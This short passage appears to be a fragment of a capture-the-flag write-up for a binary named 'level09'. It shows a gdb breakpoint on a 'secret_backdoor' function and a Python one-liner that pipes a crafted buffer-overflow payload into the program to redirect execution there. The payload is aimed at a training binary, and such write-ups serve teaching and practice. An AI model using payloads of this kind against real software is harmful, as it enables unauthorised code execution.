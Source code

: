 (gdb) b secret_backdoor 
Breakpoint 1 at 0x555555554890

(python -c 'print("A" * 40 + "\xca" + "\x90\x48" * 146)') | ./level09

we still crash bu we enter in secret backdoor function